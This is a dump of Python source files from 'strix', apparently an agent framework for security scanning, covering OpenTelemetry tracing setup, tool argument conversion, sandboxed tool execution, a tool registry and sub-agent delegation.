            "trace_id": format_trace_id(span_context.trace_id),
            "span_id": format_span_id(span_context.span_id),
            "parent_span_id": format_span_id(parent_context.span_id if parent_context else None),
            "actor": None,
            "payload": None,
            "status": status,
            "error": None,
            "source": "otel.span",
            "span_name": span.name,
            "span_kind": span.kind.name.lower(),
            "attributes": self._sanitize(attributes),
        }

        if span.events:
            record["otel_events"] = self._sanitize(
                [
                    {
                        "name": event.name,
                        "timestamp": iso_from_unix_ns(event.timestamp),
                        "attributes": dict(event.attributes or {}),
                    }
                    for event in span.events
                ]
            )

        return record


def bootstrap_otel(
    *,
    bootstrapped: bool,
    remote_enabled_state: bool,
    bootstrap_lock: threading.Lock,
    traceloop: Any,
    base_url: str,
    api_key: str,
    headers_raw: str,
    output_path_getter: Callable[[], Path],
    run_metadata_getter: Callable[[], dict[str, Any]],
    sanitizer: Callable[[Any], Any],
    write_lock_getter: Callable[[Path], threading.Lock],
    tracer_name: str = "strix.telemetry.tracer",
) -> tuple[Any, bool, bool, bool]:
    with bootstrap_lock:
        if bootstrapped:
            return (
                trace.get_tracer(tracer_name),
                remote_enabled_state,
                bootstrapped,
                remote_enabled_state,
            )

        local_exporter = JsonlSpanExporter(
            output_path_getter=output_path_getter,
            run_metadata_getter=run_metadata_getter,
            sanitizer=sanitizer,
            write_lock_getter=write_lock_getter,
        )
        local_processor = SimpleSpanProcessor(local_exporter)

        headers = parse_traceloop_headers(headers_raw)
        remote_enabled = bool(base_url and api_key)
        otlp_headers = headers
        if remote_enabled:
            otlp_headers = {"Authorization": f"Bearer {api_key}"}
            otlp_headers.update(headers)

        otel_init_ok = False
        if traceloop:
            try:
                from traceloop.sdk.instruments import Instruments

                init_kwargs: dict[str, Any] = {
                    "app_name": "strix-agent",
                    "processor": local_processor,
                    "telemetry_enabled": False,
                    "resource_attributes": default_resource_attributes(),
                    "block_instruments": {
                        Instruments.URLLIB3,
                        Instruments.REQUESTS,
                    },
                }
                if remote_enabled:
                    init_kwargs.update(
                        {
                            "api_endpoint": base_url,
                            "api_key": api_key,
                            "headers": headers,
                        }
                    )
                import io
                import sys

                _stdout = sys.stdout
                sys.stdout = io.StringIO()
                try:
                    traceloop.init(**init_kwargs)
                finally:
                    sys.stdout = _stdout
                otel_init_ok = True
            except Exception:
                logger.exception("Failed to initialize Traceloop/OpenLLMetry")
                remote_enabled = False

        if not otel_init_ok:
            from opentelemetry.sdk.resources import Resource

            provider = TracerProvider(resource=Resource.create(default_resource_attributes()))
            provider.add_span_processor(local_processor)
            if remote_enabled:
                try:
                    from opentelemetry.exporter.otlp.proto.http.trace_exporter import (
                        OTLPSpanExporter,
                    )

                    endpoint = base_url.rstrip("/") + "/v1/traces"
                    provider.add_span_processor(
                        BatchSpanProcessor(
                            OTLPSpanExporter(endpoint=endpoint, headers=otlp_headers)
                        )
                    )
                except Exception:
                    logger.exception("Failed to configure OTLP HTTP exporter")
                    remote_enabled = False

            try:
                trace.set_tracer_provider(provider)
                otel_init_ok = True
            except Exception:
                logger.exception("Failed to set OpenTelemetry tracer provider")
                remote_enabled = False

        otel_tracer = trace.get_tracer(tracer_name)
        if otel_init_ok:
            return otel_tracer, remote_enabled, True, remote_enabled

        return otel_tracer, remote_enabled, bootstrapped, remote_enabled_state
```

## File: `strix/telemetry/__init__.py`
```python
from . import posthog
from .tracer import Tracer, get_global_tracer, set_global_tracer


__all__ = [
    "Tracer",
    "get_global_tracer",
    "posthog",
    "set_global_tracer",
]
```

## File: `strix/tools/argument_parser.py`
```python
import contextlib
import inspect
import json
import types
from collections.abc import Callable
from typing import Any, Union, get_args, get_origin


class ArgumentConversionError(Exception):
    def __init__(self, message: str, param_name: str | None = None) -> None:
        self.param_name = param_name
        super().__init__(message)


def convert_arguments(func: Callable[..., Any], kwargs: dict[str, Any]) -> dict[str, Any]:
    try:
        sig = inspect.signature(func)
        converted = {}

        for param_name, value in kwargs.items():
            if param_name not in sig.parameters:
                converted[param_name] = value
                continue

            param = sig.parameters[param_name]
            param_type = param.annotation

            if param_type == inspect.Parameter.empty or value is None:
                converted[param_name] = value
                continue

            if not isinstance(value, str):
                converted[param_name] = value
                continue

            try:
                converted[param_name] = convert_string_to_type(value, param_type)
            except (ValueError, TypeError, json.JSONDecodeError) as e:
                raise ArgumentConversionError(
                    f"Failed to convert argument '{param_name}' to type {param_type}: {e}",
                    param_name=param_name,
                ) from e

    except (ValueError, TypeError, AttributeError) as e:
        raise ArgumentConversionError(f"Failed to process function arguments: {e}") from e

    return converted


def convert_string_to_type(value: str, param_type: Any) -> Any:
    origin = get_origin(param_type)
    if origin is Union or isinstance(param_type, types.UnionType):
        args = get_args(param_type)
        for arg_type in args:
            if arg_type is not type(None):
                with contextlib.suppress(ValueError, TypeError, json.JSONDecodeError):
                    return convert_string_to_type(value, arg_type)
        return value

    if hasattr(param_type, "__args__"):
        args = getattr(param_type, "__args__", ())
        if len(args) == 2 and type(None) in args:
            non_none_type = args[0] if args[1] is type(None) else args[1]
            with contextlib.suppress(ValueError, TypeError, json.JSONDecodeError):
                return convert_string_to_type(value, non_none_type)
            return value

    return _convert_basic_types(value, param_type, origin)


def _convert_basic_types(value: str, param_type: Any, origin: Any = None) -> Any:
    basic_type_converters: dict[Any, Callable[[str], Any]] = {
        int: int,
        float: float,
        bool: _convert_to_bool,
        str: str,
    }

    if param_type in basic_type_converters:
        return basic_type_converters[param_type](value)

    if list in (origin, param_type):
        return _convert_to_list(value)
    if dict in (origin, param_type):
        return _convert_to_dict(value)

    with contextlib.suppress(json.JSONDecodeError):
        return json.loads(value)
    return value


def _convert_to_bool(value: str) -> bool:
    if value.lower() in ("true", "1", "yes", "on"):
        return True
    if value.lower() in ("false", "0", "no", "off"):
        return False
    return bool(value)


def _convert_to_list(value: str) -> list[Any]:
    try:
        parsed = json.loads(value)
        if isinstance(parsed, list):
            return parsed
    except json.JSONDecodeError:
        if "," in value:
            return [item.strip() for item in value.split(",")]
        return [value]
    else:
        return [parsed]


def _convert_to_dict(value: str) -> dict[str, Any]:
    try:
        parsed = json.loads(value)
        if isinstance(parsed, dict):
            return parsed
    except json.JSONDecodeError:
        return {}
    else:
        return {}
```

## File: `strix/tools/context.py`
```python
from contextvars import ContextVar


current_agent_id: ContextVar[str] = ContextVar("current_agent_id", default="default")


def get_current_agent_id() -> str:
    return current_agent_id.get()


def set_current_agent_id(agent_id: str) -> None:
    current_agent_id.set(agent_id)
```

## File: `strix/tools/executor.py`
```python
import inspect
import os
from typing import Any

import httpx

from strix.config import Config
from strix.telemetry import posthog


if os.getenv("STRIX_SANDBOX_MODE", "false").lower() == "false":
    from strix.runtime import get_runtime

from .argument_parser import convert_arguments
from .registry import (
    get_tool_by_name,
    get_tool_names,
    get_tool_param_schema,
    needs_agent_state,
    should_execute_in_sandbox,
)


_SERVER_TIMEOUT = float(Config.get("strix_sandbox_execution_timeout") or "120")
SANDBOX_EXECUTION_TIMEOUT = _SERVER_TIMEOUT + 30
SANDBOX_CONNECT_TIMEOUT = float(Config.get("strix_sandbox_connect_timeout") or "10")


async def execute_tool(tool_name: str, agent_state: Any | None = None, **kwargs: Any) -> Any:
    execute_in_sandbox = should_execute_in_sandbox(tool_name)
    sandbox_mode = os.getenv("STRIX_SANDBOX_MODE", "false").lower() == "true"

    if execute_in_sandbox and not sandbox_mode:
        return await _execute_tool_in_sandbox(tool_name, agent_state, **kwargs)

    return await _execute_tool_locally(tool_name, agent_state, **kwargs)


async def _execute_tool_in_sandbox(tool_name: str, agent_state: Any, **kwargs: Any) -> Any:
    if not hasattr(agent_state, "sandbox_id") or not agent_state.sandbox_id:
        raise ValueError("Agent state with a valid sandbox_id is required for sandbox execution.")

    if not hasattr(agent_state, "sandbox_token") or not agent_state.sandbox_token:
        raise ValueError(
            "Agent state with a valid sandbox_token is required for sandbox execution."
        )

    if (
        not hasattr(agent_state, "sandbox_info")
        or "tool_server_port" not in agent_state.sandbox_info
    ):
        raise ValueError(
            "Agent state with a valid sandbox_info containing tool_server_port is required."
        )

    runtime = get_runtime()
    tool_server_port = agent_state.sandbox_info["tool_server_port"]
    server_url = await runtime.get_sandbox_url(agent_state.sandbox_id, tool_server_port)
    request_url = f"{server_url}/execute"

    agent_id = getattr(agent_state, "agent_id", "unknown")

    request_data = {
        "agent_id": agent_id,
        "tool_name": tool_name,
        "kwargs": kwargs,
    }

    headers = {
        "Authorization": f"Bearer {agent_state.sandbox_token}",
        "Content-Type": "application/json",
    }

    timeout = httpx.Timeout(
        timeout=SANDBOX_EXECUTION_TIMEOUT,
        connect=SANDBOX_CONNECT_TIMEOUT,
    )

    async with httpx.AsyncClient(trust_env=False) as client:
        try:
            response = await client.post(
                request_url, json=request_data, headers=headers, timeout=timeout
            )
            response.raise_for_status()
            response_data = response.json()
            if response_data.get("error"):
                posthog.error("tool_execution_error", f"{tool_name}: {response_data['error']}")
                raise RuntimeError(f"Sandbox execution error: {response_data['error']}")
            return response_data.get("result")
        except httpx.HTTPStatusError as e:
            posthog.error("tool_http_error", f"{tool_name}: HTTP {e.response.status_code}")
            if e.response.status_code == 401:
                raise RuntimeError("Authentication failed: Invalid or missing sandbox token") from e
            raise RuntimeError(f"HTTP error calling tool server: {e.response.status_code}") from e
        except httpx.RequestError as e:
            error_type = type(e).__name__
            posthog.error("tool_request_error", f"{tool_name}: {error_type}")
            raise RuntimeError(f"Request error calling tool server: {error_type}") from e


async def _execute_tool_locally(tool_name: str, agent_state: Any | None, **kwargs: Any) -> Any:
    tool_func = get_tool_by_name(tool_name)
    if not tool_func:
        raise ValueError(f"Tool '{tool_name}' not found")

    converted_kwargs = convert_arguments(tool_func, kwargs)

    if needs_agent_state(tool_name):
        if agent_state is None:
            raise ValueError(f"Tool '{tool_name}' requires agent_state but none was provided.")
        result = tool_func(agent_state=agent_state, **converted_kwargs)
    else:
        result = tool_func(**converted_kwargs)

    return await result if inspect.isawaitable(result) else result


def validate_tool_availability(tool_name: str | None) -> tuple[bool, str]:
    if tool_name is None:
        available = ", ".join(sorted(get_tool_names()))
        return False, f"Tool name is missing. Available tools: {available}"

    if tool_name not in get_tool_names():
        available = ", ".join(sorted(get_tool_names()))
        return False, f"Tool '{tool_name}' is not available. Available tools: {available}"

    return True, ""


def _validate_tool_arguments(tool_name: str, kwargs: dict[str, Any]) -> str | None:
    param_schema = get_tool_param_schema(tool_name)
    if not param_schema or not param_schema.get("has_params"):
        return None

    allowed_params: set[str] = param_schema.get("params", set())
    required_params: set[str] = param_schema.get("required", set())
    optional_params = allowed_params - required_params

    schema_hint = _format_schema_hint(tool_name, required_params, optional_params)

    unknown_params = set(kwargs.keys()) - allowed_params
    if unknown_params:
        unknown_list = ", ".join(sorted(unknown_params))
        return f"Tool '{tool_name}' received unknown parameter(s): {unknown_list}\n{schema_hint}"

    missing_required = [
        param for param in required_params if param not in kwargs or kwargs.get(param) in (None, "")
    ]
    if missing_required:
        missing_list = ", ".join(sorted(missing_required))
        return f"Tool '{tool_name}' missing required parameter(s): {missing_list}\n{schema_hint}"

    return None


def _format_schema_hint(tool_name: str, required: set[str], optional: set[str]) -> str:
    parts = [f"Valid parameters for '{tool_name}':"]
    if required:
        parts.append(f"  Required: {', '.join(sorted(required))}")
    if optional:
        parts.append(f"  Optional: {', '.join(sorted(optional))}")
    return "\n".join(parts)


async def execute_tool_with_validation(
    tool_name: str | None, agent_state: Any | None = None, **kwargs: Any
) -> Any:
    is_valid, error_msg = validate_tool_availability(tool_name)
    if not is_valid:
        return f"Error: {error_msg}"

    assert tool_name is not None

    arg_error = _validate_tool_arguments(tool_name, kwargs)
    if arg_error:
        return f"Error: {arg_error}"

    try:
        result = await execute_tool(tool_name, agent_state, **kwargs)
    except Exception as e:  # noqa: BLE001
        error_str = str(e)
        if len(error_str) > 500:
            error_str = error_str[:500] + "... [truncated]"
        return f"Error executing {tool_name}: {error_str}"
    else:
        return result


async def execute_tool_invocation(tool_inv: dict[str, Any], agent_state: Any | None = None) -> Any:
    tool_name = tool_inv.get("toolName")
    tool_args = tool_inv.get("args", {})

    return await execute_tool_with_validation(tool_name, agent_state, **tool_args)


def _check_error_result(result: Any) -> tuple[bool, Any]:
    is_error = False
    error_payload: Any = None

    if (isinstance(result, dict) and "error" in result) or (
        isinstance(result, str) and result.strip().lower().startswith("error:")
    ):
        is_error = True
        error_payload = result

    return is_error, error_payload


def _update_tracer_with_result(
    tracer: Any, execution_id: Any, is_error: bool, result: Any, error_payload: Any
) -> None:
    if not tracer or not execution_id:
        return

    try:
        if is_error:
            tracer.update_tool_execution(execution_id, "error", error_payload)
        else:
            tracer.update_tool_execution(execution_id, "completed", result)
    except (ConnectionError, RuntimeError) as e:
        error_msg = str(e)
        if tracer and execution_id:
            tracer.update_tool_execution(execution_id, "error", error_msg)
        raise


def _format_tool_result(tool_name: str, result: Any) -> tuple[str, list[dict[str, Any]]]:
    images: list[dict[str, Any]] = []

    screenshot_data = extract_screenshot_from_result(result)
    if screenshot_data:
        images.append(
            {
                "type": "image_url",
                "image_url": {"url": f"data:image/png;base64,{screenshot_data}"},
            }
        )
        result_str = remove_screenshot_from_result(result)
    else:
        result_str = result

    if result_str is None:
        final_result_str = f"Tool {tool_name} executed successfully"
    else:
        final_result_str = str(result_str)
        if len(final_result_str) > 10000:
            start_part = final_result_str[:4000]
            end_part = final_result_str[-4000:]
            final_result_str = start_part + "\n\n... [middle content truncated] ...\n\n" + end_part

    observation_xml = (
        f"<tool_result>\n<tool_name>{tool_name}</tool_name>\n"
        f"<result>{final_result_str}</result>\n</tool_result>"
    )

    return observation_xml, images


async def _execute_single_tool(
    tool_inv: dict[str, Any],
    agent_state: Any | None,
    tracer: Any | None,
    agent_id: str,
) -> tuple[str, list[dict[str, Any]], bool]:
    tool_name = tool_inv.get("toolName", "unknown")
    args = tool_inv.get("args", {})
    execution_id = None
    should_agent_finish = False

    if tracer:
        execution_id = tracer.log_tool_execution_start(agent_id, tool_name, args)

    try:
        result = await execute_tool_invocation(tool_inv, agent_state)

        is_error, error_payload = _check_error_result(result)

        if (
            tool_name in ("finish_scan", "agent_finish")
            and not is_error
            and isinstance(result, dict)
        ):
            if tool_name == "finish_scan":
                should_agent_finish = result.get("scan_completed", False)
            elif tool_name == "agent_finish":
                should_agent_finish = result.get("agent_completed", False)

        _update_tracer_with_result(tracer, execution_id, is_error, result, error_payload)

    except (ConnectionError, RuntimeError, ValueError, TypeError, OSError) as e:
        error_msg = str(e)
        if tracer and execution_id:
            tracer.update_tool_execution(execution_id, "error", error_msg)
        raise

    observation_xml, images = _format_tool_result(tool_name, result)
    return observation_xml, images, should_agent_finish


def _get_tracer_and_agent_id(agent_state: Any | None) -> tuple[Any | None, str]:
    try:
        from strix.telemetry.tracer import get_global_tracer

        tracer = get_global_tracer()
        agent_id = agent_state.agent_id if agent_state else "unknown_agent"
    except (ImportError, AttributeError):
        tracer = None
        agent_id = "unknown_agent"

    return tracer, agent_id


async def process_tool_invocations(
    tool_invocations: list[dict[str, Any]],
    conversation_history: list[dict[str, Any]],
    agent_state: Any | None = None,
) -> bool:
    observation_parts: list[str] = []
    all_images: list[dict[str, Any]] = []
    should_agent_finish = False

    tracer, agent_id = _get_tracer_and_agent_id(agent_state)

    for tool_inv in tool_invocations:
        observation_xml, images, tool_should_finish = await _execute_single_tool(
            tool_inv, agent_state, tracer, agent_id
        )
        observation_parts.append(observation_xml)
        all_images.extend(images)

        if tool_should_finish:
            should_agent_finish = True

    if all_images:
        content = [{"type": "text", "text": "Tool Results:\n\n" + "\n\n".join(observation_parts)}]
        content.extend(all_images)
        conversation_history.append({"role": "user", "content": content})
    else:
        observation_content = "Tool Results:\n\n" + "\n\n".join(observation_parts)
        conversation_history.append({"role": "user", "content": observation_content})

    return should_agent_finish


def extract_screenshot_from_result(result: Any) -> str | None:
    if not isinstance(result, dict):
        return None

    screenshot = result.get("screenshot")
    if isinstance(screenshot, str) and screenshot:
        return screenshot

    return None


def remove_screenshot_from_result(result: Any) -> Any:
    if not isinstance(result, dict):
        return result

    result_copy = result.copy()
    if "screenshot" in result_copy:
        result_copy["screenshot"] = "[Image data extracted - see attached image]"

    return result_copy
```

## File: `strix/tools/registry.py`
```python
import inspect
import logging
import os
from collections.abc import Callable
from functools import wraps
from inspect import signature
from pathlib import Path
from typing import Any

import defusedxml.ElementTree as DefusedET

from strix.utils.resource_paths import get_strix_resource_path


tools: list[dict[str, Any]] = []
_tools_by_name: dict[str, Callable[..., Any]] = {}
_tool_param_schemas: dict[str, dict[str, Any]] = {}
logger = logging.getLogger(__name__)


class ImplementedInClientSideOnlyError(Exception):
    def __init__(
        self,
        message: str = "This tool is implemented in the client side only",
    ) -> None:
        self.message = message
        super().__init__(self.message)


def _process_dynamic_content(content: str) -> str:
    if "{{DYNAMIC_SKILLS_DESCRIPTION}}" in content:
        try:
            from strix.skills import generate_skills_description

            skills_description = generate_skills_description()
            content = content.replace("{{DYNAMIC_SKILLS_DESCRIPTION}}", skills_description)
        except ImportError:
            logger.warning("Could not import skills utilities for dynamic schema generation")
            content = content.replace(
                "{{DYNAMIC_SKILLS_DESCRIPTION}}",
                "List of skills to load for this agent (max 5). Skill discovery failed.",
            )

    return content


def _load_xml_schema(path: Path) -> Any:
    if not path.exists():
        return None
    try:
        content = path.read_text(encoding="utf-8")

        content = _process_dynamic_content(content)

        start_tag = '<tool name="'
        end_tag = "</tool>"
        tools_dict = {}

        pos = 0
        while True:
            start_pos = content.find(start_tag, pos)
            if start_pos == -1:
                break

            name_start = start_pos + len(start_tag)
            name_end = content.find('"', name_start)
            if name_end == -1:
                break
            tool_name = content[name_start:name_end]

            end_pos = content.find(end_tag, name_end)
            if end_pos == -1:
                break
            end_pos += len(end_tag)

            tool_element = content[start_pos:end_pos]
            tools_dict[tool_name] = tool_element

            pos = end_pos

            if pos >= len(content):
                break
    except (IndexError, ValueError, UnicodeError) as e:
        logger.warning(f"Error loading schema file {path}: {e}")
        return None
    else:
        return tools_dict


def _parse_param_schema(tool_xml: str) -> dict[str, Any]:
    params: set[str] = set()
    required: set[str] = set()

    params_start = tool_xml.find("<parameters>")
    params_end = tool_xml.find("</parameters>")

    if params_start == -1 or params_end == -1:
        return {"params": set(), "required": set(), "has_params": False}

    params_section = tool_xml[params_start : params_end + len("</parameters>")]

    try:
        root = DefusedET.fromstring(params_section)
    except DefusedET.ParseError:
        return {"params": set(), "required": set(), "has_params": False}

    for param in root.findall(".//parameter"):
        name = param.attrib.get("name")
        if not name:
            continue
        params.add(name)
        if param.attrib.get("required", "false").lower() == "true":
            required.add(name)

    return {"params": params, "required": required, "has_params": bool(params or required)}


def _get_module_name(func: Callable[..., Any]) -> str:
    module = inspect.getmodule(func)
    if not module:
        return "unknown"

    module_name = module.__name__
    if ".tools." in module_name:
        parts = module_name.split(".tools.")[-1].split(".")
        if len(parts) >= 1:
            return parts[0]
    return "unknown"


def _get_schema_path(func: Callable[..., Any]) -> Path | None:
    module = inspect.getmodule(func)
    if not module or not module.__name__:
        return None

    module_name = module.__name__

    if ".tools." not in module_name:
        return None

    parts = module_name.split(".tools.")[-1].split(".")
    if len(parts) < 2:
        return None

    folder = parts[0]
    file_stem = parts[1]
    schema_file = f"{file_stem}_schema.xml"

    return get_strix_resource_path("tools", folder, schema_file)


def register_tool(
    func: Callable[..., Any] | None = None, *, sandbox_execution: bool = True
) -> Callable[..., Any]:
    def decorator(f: Callable[..., Any]) -> Callable[..., Any]:
        func_dict = {
            "name": f.__name__,
            "function": f,
            "module": _get_module_name(f),
            "sandbox_execution": sandbox_execution,
        }

        sandbox_mode = os.getenv("STRIX_SANDBOX_MODE", "false").lower() == "true"
        if not sandbox_mode:
            try:
                schema_path = _get_schema_path(f)
                xml_tools = _load_xml_schema(schema_path) if schema_path else None

                if xml_tools is not None and f.__name__ in xml_tools:
                    func_dict["xml_schema"] = xml_tools[f.__name__]
                else:
                    func_dict["xml_schema"] = (
                        f'<tool name="{f.__name__}">'
                        "<description>Schema not found for tool.</description>"
                        "</tool>"
                    )
            except (TypeError, FileNotFoundError) as e:
                logger.warning(f"Error loading schema for {f.__name__}: {e}")
                func_dict["xml_schema"] = (
                    f'<tool name="{f.__name__}">'
                    "<description>Error loading schema.</description>"
                    "</tool>"
                )

        if not sandbox_mode:
            xml_schema = func_dict.get("xml_schema")
            param_schema = _parse_param_schema(xml_schema if isinstance(xml_schema, str) else "")
            _tool_param_schemas[str(func_dict["name"])] = param_schema

        tools.append(func_dict)
        _tools_by_name[str(func_dict["name"])] = f

        @wraps(f)
        def wrapper(*args: Any, **kwargs: Any) -> Any:
            return f(*args, **kwargs)

        return wrapper

    if func is None:
        return decorator
    return decorator(func)


def get_tool_by_name(name: str) -> Callable[..., Any] | None:
    return _tools_by_name.get(name)


def get_tool_names() -> list[str]:
    return list(_tools_by_name.keys())


def get_tool_param_schema(name: str) -> dict[str, Any] | None:
    return _tool_param_schemas.get(name)


def needs_agent_state(tool_name: str) -> bool:
    tool_func = get_tool_by_name(tool_name)
    if not tool_func:
        return False
    sig = signature(tool_func)
    return "agent_state" in sig.parameters


def should_execute_in_sandbox(tool_name: str) -> bool:
    for tool in tools:
        if tool.get("name") == tool_name:
            return bool(tool.get("sandbox_execution", True))
    return True


def get_tools_prompt() -> str:
    tools_by_module: dict[str, list[dict[str, Any]]] = {}
    for tool in tools:
        module = tool.get("module", "unknown")
        if module not in tools_by_module:
            tools_by_module[module] = []
        tools_by_module[module].append(tool)

    xml_sections = []
    for module, module_tools in sorted(tools_by_module.items()):
        tag_name = f"{module}_tools"
        section_parts = [f"<{tag_name}>"]
        for tool in module_tools:
            tool_xml = tool.get("xml_schema", "")
            if tool_xml:
                indented_tool = "\n".join(f"  {line}" for line in tool_xml.split("\n"))
                section_parts.append(indented_tool)
        section_parts.append(f"</{tag_name}>")
        xml_sections.append("\n".join(section_parts))

    return "\n\n".join(xml_sections)


def clear_registry() -> None:
    tools.clear()
    _tools_by_name.clear()
    _tool_param_schemas.clear()
```

## File: `strix/tools/__init__.py`
```python
import os

from strix.config import Config

from .executor import (
    execute_tool,
    execute_tool_invocation,
    execute_tool_with_validation,
    extract_screenshot_from_result,
    process_tool_invocations,
    remove_screenshot_from_result,
    validate_tool_availability,
)
from .registry import (
    ImplementedInClientSideOnlyError,
    get_tool_by_name,
    get_tool_names,
    get_tools_prompt,
    needs_agent_state,
    register_tool,
    tools,
)


SANDBOX_MODE = os.getenv("STRIX_SANDBOX_MODE", "false").lower() == "true"


def _is_browser_disabled() -> bool:
    if os.getenv("STRIX_DISABLE_BROWSER", "").lower() == "true":
        return True
    val: str = Config.load().get("env", {}).get("STRIX_DISABLE_BROWSER", "")
    return str(val).lower() == "true"


DISABLE_BROWSER = _is_browser_disabled()


def _has_perplexity_api() -> bool:
    if os.getenv("PERPLEXITY_API_KEY"):
        return True
    return bool(Config.load().get("env", {}).get("PERPLEXITY_API_KEY"))


if not SANDBOX_MODE:
    from .agents_graph import *  # noqa: F403

    if not DISABLE_BROWSER:
        from .browser import *  # noqa: F403
    from .file_edit import *  # noqa: F403
    from .finish import *  # noqa: F403
    from .notes import *  # noqa: F403
    from .proxy import *  # noqa: F403
    from .python import *  # noqa: F403
    from .reporting import *  # noqa: F403
    from .terminal import *  # noqa: F403
    from .thinking import *  # noqa: F403
    from .todo import *  # noqa: F403

    if _has_perplexity_api():
        from .web_search import *  # noqa: F403
else:
    if not DISABLE_BROWSER:
        from .browser import *  # noqa: F403
    from .file_edit import *  # noqa: F403
    from .proxy import *  # noqa: F403
    from .python import *  # noqa: F403
    from .terminal import *  # noqa: F403

__all__ = [
    "ImplementedInClientSideOnlyError",
    "execute_tool",
    "execute_tool_invocation",
    "execute_tool_with_validation",
    "extract_screenshot_from_result",
    "get_tool_by_name",
    "get_tool_names",
    "get_tools_prompt",
    "needs_agent_state",
    "process_tool_invocations",
    "register_tool",
    "remove_screenshot_from_result",
    "tools",
    "validate_tool_availability",
]
```

## File: `strix/tools/agents_graph/agents_graph_actions.py`
```python
import threading
from datetime import UTC, datetime
from typing import Any, Literal

from strix.tools.registry import register_tool


_agent_graph: dict[str, Any] = {
    "nodes": {},
    "edges": [],
}

_root_agent_id: str | None = None

_agent_messages: dict[str, list[dict[str, Any]]] = {}

_running_agents: dict[str, threading.Thread] = {}

_agent_instances: dict[str, Any] = {}

_agent_states: dict[str, Any] = {}


def _run_agent_in_thread(
    agent: Any, state: Any, inherited_messages: list[dict[str, Any]]
) -> dict[str, Any]:
    try:
        if inherited_messages:
            state.add_message("user", "<inherited_context_from_parent>")
            for msg in inherited_messages:
                state.add_message(msg["role"], msg["content"])
            state.add_message("user", "</inherited_context_from_parent>")

        parent_info = _agent_graph["nodes"].get(state.parent_id, {})
        parent_name = parent_info.get("name", "Unknown Parent")

        context_status = (
            "inherited conversation context from your parent for background understanding"
            if inherited_messages
            else "started with a fresh context"
        )

        task_xml = f"""<agent_delegation>
    <identity>
        ⚠️ You are NOT your parent agent. You are a NEW, SEPARATE sub-agent (not root).

        Your Info: {state.agent_name} ({state.agent_id})
        Parent Info: {parent_name} ({state.parent_id})
    </identity>

    <your_task>{state.task}</your_task>

    <instructions>
        - You have {context_status}
        - Inherited context is for BACKGROUND ONLY - don't continue parent's work
        - Maintain strict self-identity: never speak as or for your parent
        - Do not merge your conversation with the parent's;
        - Do not claim parent's actions or messages as your own
        - Focus EXCLUSIVELY on your delegated task above
        - Work independently with your own approach
        - Use agent_finish when complete to report back to parent
        - You are a SPECIALIST for this specific task
        - You share the same container as other agents but have your own tool server instance
        - All agents share /workspace directory and proxy history for better collaboration
        - You can see files created by other agents and proxy traffic from previous work
        - Build upon previous work but focus on your specific delegated task
    </instructions>
</agent_delegation>"""

        state.add_message("user", task_xml)

        _agent_states[state.agent_id] = state

        _agent_graph["nodes"][state.agent_id]["state"] = state.model_dump()

        import asyncio

        loop = asyncio.new_event_loop()
        asyncio.set_event_loop(loop)
        try:
            result = loop.run_until_complete(agent.agent_loop(state.task))
        finally:
            loop.close()

    except Exception as e:
        _agent_graph["nodes"][state.agent_id]["status"] = "error"
        _agent_graph["nodes"][state.agent_id]["finished_at"] = datetime.now(UTC).isoformat()
        _agent_graph["nodes"][state.agent_id]["result"] = {"error": str(e)}
        _running_agents.pop(state.agent_id, None)
        _agent_instances.pop(state.agent_id, None)
        raise
    else:
        if state.stop_requested:
            _agent_graph["nodes"][state.agent_id]["status"] = "stopped"
        else:
            _agent_graph["nodes"][state.agent_id]["status"] = "completed"
        _agent_graph["nodes"][state.agent_id]["finished_at"] = datetime.now(UTC).isoformat()
        _agent_graph["nodes"][state.agent_id]["result"] = result
        _running_agents.pop(state.agent_id, None)
        _agent_instances.pop(state.agent_id, None)

        return {"result": result}


@register_tool(sandbox_execution=False)
def view_agent_graph(agent_state: Any) -> dict[str, Any]:
    try:
        structure_lines = ["=== AGENT GRAPH STRUCTURE ==="]

        def _build_tree(agent_id: str, depth: int = 0) -> None:
            node = _agent_graph["nodes"][agent_id]
            indent = "  " * depth

            you_indicator = " ← This is you" if agent_id == agent_state.agent_id else ""

            structure_lines.append(f"{indent}* {node['name']} ({agent_id}){you_indicator}")
            structure_lines.append(f"{indent}  Task: {node['task']}")
            structure_lines.append(f"{indent}  Status: {node['status']}")

            children = [
                edge["to"]
                for edge in _agent_graph["edges"]
                if edge["from"] == agent_id and edge["type"] == "delegation"
            ]

            if children:
                structure_lines.append(f"{indent}   Children:")
                for child_id in children:
                    _build_tree(child_id, depth + 2)

        root_agent_id = _root_agent_id
        if not root_agent_id and _agent_graph["nodes"]:
            for agent_id, node in _agent_graph["nodes"].items():
                if node.get("parent_id") is None:
                    root_agent_id = agent_id
                    break
            if not root_agent_id:
                root_agent_id = next(iter(_agent_graph["nodes"].keys()))

        if root_agent_id and root_agent_id in _agent_graph["nodes"]:
            _build_tree(root_agent_id)
        else:
            structure_lines.append("No agents in the graph yet")

        graph_structure = "\n".join(structure_lines)

        total_nodes = len(_agent_graph["nodes"])
        running_count = sum(
            1 for node in _agent_graph["nodes"].values() if node["status"] == "running"
        )
        waiting_count = sum(
            1 for node in _agent_graph["nodes"].values() if node["status"] == "waiting"
        )
        stopping_count = sum(
            1 for node in _agent_graph["nodes"].values() if node["status"] == "stopping"
        )
        completed_count = sum(
            1 for node in _agent_graph["nodes"].values() if node["status"] == "completed"
        )
        stopped_count = sum(
            1 for node in _agent_graph["nodes"].values() if node["status"] == "stopped"
        )
        failed_count = sum(
            1 for node in _agent_graph["nodes"].values() if node["status"] in ["failed", "error"]
        )

    except Exception as e:  # noqa: BLE001
        return {
            "error": f"Failed to view agent graph: {e}",
            "graph_structure": "Error retrieving graph structure",
        }
    else:
        return {
            "graph_structure": graph_structure,
            "summary": {
                "total_agents": total_nodes,
                "running": running_count,
                "waiting": waiting_count,
                "stopping": stopping_count,
                "completed": completed_count,
                "stopped": stopped_count,
                "failed": failed_count,
            },
        }


@register_tool(sandbox_execution=False)
def create_agent(
    agent_state: Any,
    task: str,
    name: str,
    inherit_context: bool = True,
    skills: str | None = None,
) -> dict[str, Any]:
    try:
        parent_id = agent_state.agent_id

        skill_list = []
        if skills:
            skill_list = [s.strip() for s in skills.split(",") if s.strip()]

        if len(skill_list) > 5:
            return {
                "success": False,
                "error": (
                    "Cannot specify more than 5 skills for an agent (use comma-separated format)"
                ),
                "agent_id": None,
            }

        if skill_list:
            from strix.skills import get_all_skill_names, validate_skill_names

            validation = validate_skill_names(skill_list)
            if validation["invalid"]:
                available_skills = list(get_all_skill_names())
                return {
                    "success": False,
                    "error": (
                        f"Invalid skills: {validation['invalid']}. "
                        f"Available skills: {', '.join(available_skills)}"
                    ),
                    "agent_id": None,
                }

        from strix.agents import StrixAgent
        from strix.agents.state import AgentState
